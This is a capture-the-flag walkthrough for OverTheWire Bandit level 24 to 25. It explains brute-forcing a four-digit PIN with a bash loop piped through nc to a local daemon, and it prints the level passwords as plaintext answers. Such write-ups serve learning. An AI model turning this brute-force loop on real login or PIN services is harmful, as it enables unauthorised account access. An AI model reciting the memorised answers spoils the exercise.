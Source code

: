 # Bandit Level 24 -> Level 25 #

https://overthewire.org/wargames/bandit/bandit25.html

## SSH Access Details ##
**Username:**  bandit24

**Password:**  VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
#

## Level Goal : ##
>A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
>You do not need to create new connections each time

#  
## PROCEDURE : ##

In this task we will perform a very basic form of a *brute-force* attack.  This is an attempt at cracking a password or pin by trying all possible different combinations.  So for example if we need to crack a two-digit code we can try all combinations from `00`, `01`, `02`, all the way up to `99` until we find the right one.  Similarly for a two-character code we can try `aa`, `ab`, `ac`, etc up to `zz`.

Let's start off this task by opening a connection on `localhost` to port `30002` using `nc` and seeing exactly what the service is expecting to receive:

```console
bandit24@bandit:/tmp/myscript$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 1111
Wrong! Please enter the correct pincode. Try again.
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 2222
Wrong! Please enter the correct pincode. Try again.
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 3333
Wrong! Please enter the correct pincode. Try again.
```

Now that we know exactly the format the service is expecting, we can either spend hours and hours typing in different pin codes until we find the right one, or else we can write a simple script to make our lives that much easier.

Let's start by creating a directory in `/tmp/` and creating a file called `myscript.sh`, which we can open with `nano` for editing.

```console
bandit24@bandit:/tmp/myscript$ mkdir /tmp/scriptdir
bandit24@bandit:/tmp/myscript$ cd /tmp/scriptdir
bandit24@bandit:/tmp/scriptdir$ touch myscript.sh
bandit24@bandit:/tmp/scriptdir$ nano myscript.sh
```

For the time being let's just try a quick proof-of-concept.  The following code should generate 100 different four-digit PIN codes from 0000 to 0099:

```bash
#!/bin/bash

for i in {0000..0099};
do
  echo $i
done
```

After saving we need to give the script executable permessions:

```console
bandit24@bandit:/tmp/scriptdir$ chmod 777 myscript.sh
```

..and we can now run the script to see what happens:
```console
bandit24@bandit:/tmp/scriptdir$ ./myscript.sh
0000
0001
0002
0003
0004
0005
0006
0007
0008
0009
0010
0011
0012
...
```

OK - that looks great.  We have a qway of very quickly and easily generating all the possible 4-digit PIN combinations.  We just need to edit the range in the for loop to go from `0000` to `9999` and add the current user password before passing on everything to the `nc` connection.

```bash
#!/bin/bash
for i in {0000..9999};
do
  echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar " $i;
done | nc localhost 30002
```
Here is a line-by-line explanation of this script:

- `#!/bin/bash`: declares this file as a bash script
- `for i in {0000..9999};`: starts a for loop that starts 0000 and ends at 9999 incrementing the numbers by one for each execution of the loop.  The value of the current iteration (i.e. `0000`, `0001`, `0002`, etc...) is stored in the variable `$i`
-   `echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar " $i;`: Output the current user password, followed by a space and the generated PIN
- `done | nc localhost 30002`: Pass the whole string to a `nc` connection on localhost port no. `30002`
  

Now if we try running our script again, we can see several failed attempts in rapid succession, until finally we have a succesful match 😃 - so satisfying!

```
bandit24@bandit:/tmp/scriptdir$ ./myscript.sh
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
...
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
```

#
[<<< Previous Task (Level23) ](Level23%20->%20Level24.md)|......................................................................................................| [Next Task (Level25) >>>](Level25%20->%20Level26.md)|
:-|--|-:
